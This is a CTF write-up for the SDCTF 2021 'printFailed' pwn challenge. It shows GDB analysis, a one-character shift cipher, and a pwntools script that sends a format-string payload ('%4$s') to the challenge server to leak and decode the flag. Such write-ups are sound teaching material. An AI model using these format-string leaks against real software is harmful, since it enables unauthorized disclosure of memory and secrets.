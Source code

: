 ```yaml
---
layout: load_md
title: The White Circle | Sdctf 2021 | printFailed Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Sdctf 2021
parent: sdctf_2021
category: pwn
challenge: printFailed
tags: "pwn, twh, format string"
date: 2021-05-10T00:00:00+00:00
last_update: 2021-05-10T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Sdctf 2021</h1>

## printFailed
> Solved By : thewhiteh4t

* Right from the start we get a segfault on this binary

```bash
./printFailed
zsh: segmentation fault (core dumped)  ./printFailed
```

* Let's investigate in GDB

![](https://i.imgur.com/91Rzavz.png)

* It's trying to open **flag.txt** but it does not exist, I created the file and relaunched the binary and it works now

```bash
./printFailed
can you guess the scrambled flag?
yes
you guessed:
yes
wrong
```

* It prints the input, let's look into GDB again
* A scramble function is called soon after the file is read
* Here we can see the scrambled flag : 

![](https://i.imgur.com/itwobGI.png)

```
"tedug|g5l4`gm5h~\v", '\001' <repeats 22 times>
```

* this looks familiar

```
tedug|g5l4`gm5h~\v
sdctf{f4k3_fl4g}
```

* so the input is shifted by 1 character!
* let's try to input the scrambled flag in the local binary

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF('./printFailed')

guess = b'tedug|g5l4`gm5h~\v' + b'\001' * 22

p = elf.process()
p.send(guess)
out = p.recv(4096)
print(out)
```

![](https://i.imgur.com/z5MuV9f.png)

* the scrambled flag works!
* but now the issue is that we don't know the actual flag so we cannot make a scrambled flag
* earlier we saw that the binary prints the input, this hints at `format string exploit`
* this article helped a lot in figuring out the way forward
* https://nikhilh20.medium.com/format-string-exploit-ccefad8fd66b
* https://man7.org/linux/man-pages/man3/printf.3.html

```
%s   -> string
%2$s -> 2nd argument
%3$s -> 3rd argument
```

* I tried them one by one and `%4$s` leaks the scrambled flag! 

![](https://i.imgur.com/kPVOxuG.png)

* Here is the final script and output :

```python
#!/usr/bin/env python3

from pwn import *

host = 'printf.sdc.tf'
port = 1337

payload = b'%4$s'

conn = remote(host, port)
conn.send(payload + b'\n')
res = conn.recv(4096).decode().split('\n')[2]
conn.close()

print(res)

for char in res:
    print(chr(ord(char) - 1), end='')
```

**OUTPUT :**

![](https://i.imgur.com/DCmtMWZ.png)